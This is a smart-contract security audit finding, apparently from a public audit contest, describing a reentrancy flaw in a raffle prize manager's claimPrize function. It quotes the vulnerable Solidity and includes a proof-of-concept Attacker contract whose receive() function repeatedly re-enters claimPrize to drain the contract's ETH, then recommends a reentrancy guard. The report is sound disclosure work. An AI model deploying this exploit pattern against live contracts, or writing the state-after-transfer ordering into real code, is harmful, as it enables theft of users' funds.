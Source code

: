 Merry Plastic Poodle

High

# `WinnablePrizeManager::claimPrize` is vulnerable to reentrancy attacks, allowing a raffle winner to drain `prizeManager`

## Summary
## Vulnerability Detail
winner of a raffle round is able to call `WinnablePrizeManager::claimPrize` to claim the prize, however, there is a reentrany vulnerability which allows the attacker to claim all the ETH or token (if it calls receiver) balance of `PrizeManager`.
if we look at `claimPrize` function we can see that `checks-effect-interaction` pattern is not implemented correctly, such that the state changes which prevent `claimPrize` function from being called again are updated at the end of the function, after sending prize to the winner:
```solidity
    function claimPrize(uint256 raffleId) external {
        RafflePrize storage rafflePrize = _rafflePrize[raffleId];
        RaffleType raffleType = rafflePrize.raffleType;
       
        //@audit-info first, send rewards
        if (raffleType == RaffleType.NFT) {
            NFTInfo storage raffle = _nftRaffles[raffleId];
            _nftLocked[raffle.contractAddress][raffle.tokenId] = false;
            _sendNFTPrize(raffle.contractAddress, raffle.tokenId, msg.sender);
        } else if (raffleType == RaffleType.TOKEN) {
            TokenInfo storage raffle = _tokenRaffles[raffleId];
            unchecked {
                _tokensLocked[raffle.tokenAddress] -= raffle.amount;
            }
            _sendTokenPrize(raffle.tokenAddress, raffle.amount, msg.sender);
        } else if (raffleType == RaffleType.ETH) {
            unchecked {
                _ethLocked -= _ethRaffles[raffleId];
            }
            _sendETHPrize(_ethRaffles[raffleId], msg.sender);
        } else revert InvalidRaffle();

        //@audit-info do state changes here
        if (msg.sender != rafflePrize.winner) revert UnauthorizedToClaim();
        if (rafflePrize.status == RafflePrizeStatus.CLAIMED)
            revert AlreadyClaimed();
        rafflePrize.status = RafflePrizeStatus.CLAIMED;
        emit PrizeClaimed(raffleId, msg.sender);
    }
```
for simplicity lets assume that Alice won `1 ETH` in the `raffleId` of `2` and ETH balance of `PrizeManager` is `5 ETH`:

1- Alice creates two contracts with same address on ETH and avalanche chain, the avalanche version is used to purchase tickets:
`Attacker.sol` on avalanche:
```solidity
//SPDX-License-Identifier: MIT
pragma solidity 0.8.24;
import {WinnablesPrizeManager} from "./WinnablesPrizeManager.sol";
import "@openzeppelin/contracts/token/ERC1155/IERC1155Receiver.sol";

contract Attacker {
    WinnablesPrizeManager prizeManager;
    uint public round;
    uint public prizeAmount;

    constructor(address manager) {
        prizeManager = WinnablesPrizeManager(manager);
    }

    function buyTickets() public payable {
        //purchase tickets on avalanch
    }

    function callRefund() public payable {
        //purchase tickets on avalanch
    }

    function withdrawTokens() public payable {
        //withdraw tokens
    }

    function withdrawETH() public payable {
        //withdraw ETH
    }

    function onERC1155Received(
        address operator,
        address from,
        uint256 id,
        uint256 value,
        bytes calldata data
    ) external returns (bytes4) {
        return IERC1155Receiver.onERC1155Received.selector;
    }
}
```
and `ETH` version is used to claim the prize, in case that she won it:

```solidity
//SPDX-License-Identifier: MIT

pragma solidity 0.8.24;

import {WinnablesPrizeManager} from "./WinnablesPrizeManager.sol";
import "@openzeppelin/contracts/token/ERC1155/IERC1155Receiver.sol";

contract Attacker {
    WinnablesPrizeManager prizeManager;
    uint public round;
    uint public prizeAmount;

    constructor(address manager) {
        prizeManager = WinnablesPrizeManager(manager);
    }

    function withrawETH() public {
        //withdraw ETH
    }

    function withrawTokens() public {
        //withdraw tokens
    }

    function claimReward(uint _id, uint _prizeAmount) public {
        round = _id;
        prizeAmount = _prizeAmount;
        prizeManager.claimPrize(round);
    }

    receive() external payable {
        //claim prize again
        if (address(prizeManager).balance > prizeAmount) {
            prizeManager.claimPrize(round);
        }
    }
}
```
2- Alice buys tickets using the avalanche version
3- Alice won the prize, she calls `Attacker.sol::claimReward` on the `ETH` chain passing `2` as `_id` and `1 ETH` as the `_prizeAmount`
4- `WinnablesPrizeManager::claimPrize` is called, Since `RaffleType` is `ETH`, `1 ETH` is sent to Attacker.sol:
```solidity
         else if (raffleType == RaffleType.ETH) {
            unchecked {
                _ethLocked -= _ethRaffles[raffleId];
            }
            _sendETHPrize(_ethRaffles[raffleId], msg.sender);
        }
```
5- if we look at `_sendETHPrize` we can see that it calls msg.sender:
```solidity
    function _sendETHPrize(uint256 amount, address winner) internal {
        (bool success, ) = winner.call{value: amount}("");
        if (!success) revert ETHTransferFail();
    }
```
6- `receive` function of `Attacker` contract is called, `Attacker` calls `WinnablesPrizeManager::claimPrize` again.
7- `WinnablesPrizeManager` sends another `ETH` To `Attacker` contract, this loop continues until `PrizeManager` doesn't have enough `ETH`
8- at the end of `claimPrize` function, `rafflePrize.status` is set to `CLAIMED` which prevents this function from being called again, however, this state change must have been at the beginning of the function, not at the end:
```solidity
        if (msg.sender != rafflePrize.winner) revert UnauthorizedToClaim();
        if (rafflePrize.status == RafflePrizeStatus.CLAIMED)
            revert AlreadyClaimed();
        rafflePrize.status = RafflePrizeStatus.CLAIMED;
        emit PrizeClaimed(raffleId, msg.sender);
```

## Impact
A malicious contract can drain whole ETH or token balance of the PrizeManager

## Code Snippet
https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesPrizeManager.sol#L105-L124

## Tool used

Manual Review

## Recommendation
use a reentrancy guard for PrizeManager